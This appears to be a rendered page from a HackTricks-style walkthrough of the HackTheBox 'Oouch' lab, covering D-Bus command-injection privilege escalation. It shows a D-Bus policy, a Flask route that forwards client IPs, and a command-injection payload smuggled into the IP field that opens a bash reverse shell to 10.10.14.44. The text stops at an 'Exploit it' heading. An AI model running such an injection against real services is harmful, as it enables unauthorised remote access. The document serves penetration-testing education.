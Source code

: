 115<?xml version="1.0" encoding="UTF-8"?>  
116​
117<!DOCTYPE busconfig PUBLIC
118 "-//freedesktop//DTD D-BUS Bus Configuration 1.0//EN"
119 "http://www.freedesktop.org/standards/dbus/1.0/busconfig.dtd">
120​
121<busconfig>
122​
123  <policy  user="root">
124  <allow  own="htb.oouch.Block"/>
125  </policy>
126​
127<policy  user="www-data">
128<allow  send_destination="htb.oouch.Block"/>
129<allow  receive_sender="htb.oouch.Block"/>
130</policy>
131​
132</busconfig>

Note from the previous configuration that** you will need to be the user **`**root** `** or **`**www-data** `** to send and receive information** via this D-BUS communication.

As user **qtc **inside the docker container **aeb4525789d8** you can find some dbus related code in the file */code/oouch/routes.py. *This is the interesting code:

![](data:image/svg+xml,%3csvg preserveAspectRatio='xMidYMid meet' height='1em' width='1em' fill='none' xmlns='http://www.w3.org/2000/svg' viewBox='0 0 24 24' stroke-width='2' stroke-linecap='round' stroke-linejoin='round' stroke='currentColor' class='icon-7f6730be--text-3f89f380 js-evernote-checked' data-evernote-id='3237'%3e%3cg data-evernote-id='3238' class='js-evernote-checked'%3e%3crect x='9' y='9' width='13' height='13' rx='2' ry='2' data-evernote-id='3239' class='js-evernote-checked'%3e%3c/rect%3e%3cpath d='M5 15H4a2 2 0 0 1-2-2V4a2 2 0 0 1 2-2h9a2 2 0 0 1 2 2v1' data-evernote-id='3240' class='js-evernote-checked'%3e%3c/path%3e%3c/g%3e%3c/svg%3e)Copy

133if primitive_xss.search(form.textfield.data):
134 bus = dbus.SystemBus()
135 block_object = bus.get_object('htb.oouch.Block',  '/htb/oouch/Block')

136 block_iface = dbus.Interface(block_object, dbus_interface='htb.oouch.Block')

137​
138 client_ip = request.environ.get('REMOTE_ADDR', request.remote_addr)
139 response = block_iface.Block(client_ip)
140 bus.close()
141  return render_template('hacker.html', title='Hacker')

As you can see, it is **connecting to a D-Bus interface** and sending to the **"Block" function** the "client_ip".

In the other side of the D-Bus connection there is some C compiled binary running. This code is **listening **in the D-Bus connection **for IP address and is calling iptables via **`**system** `** function** to block the given IP address.**The call to **`**system** `** is vulnerable on purpose to command injection**, so a payload like the following one will create a reverse shell: `;bash -c 'bash -i >& /dev/tcp/10.10.14.44/9191 0>&1' # `

##

Exploit it[![](data:image/svg+xml,%3csvg preserveAspectRatio='xMidYMid meet' height='1em' width='1em' fill='none' xmlns='http://www.w3.org/2000/svg' viewBox='0 0 24 24' stroke-width='2' stroke-linecap='round' stroke-linejoin='round' stroke='currentColor' class='icon-7f6730be--text-3f89f380 js-evernote-checked' data-evernote-id='3417'%3e%3cg data-evernote-id='3418' class='js-evernote-checked'%3e%3cpath d='M10 13a5 5 0 0 0 7.54.54l3-3a5 5 0 0 0-7.07-7.07l-1.72 1.71' data-evernote-id='3419' class='js-evernote-checked'%3e%3c/path%3e%3cpath d='M14 11a5 5 0 0 0-7.54-.54l-3 3a5 5 0 0 0 7.07 7.07l1.71-1.71' data-evernote-id='3420' class='js-evernote-checked'%3e%3c/path%3e%3c/g%3e%3c/svg%3e)](https://book.hacktricks.xyz/linux-unix/privilege-escalation/d-bus-enumeration-and-command-injection-privilege-escalation#exploit-it)
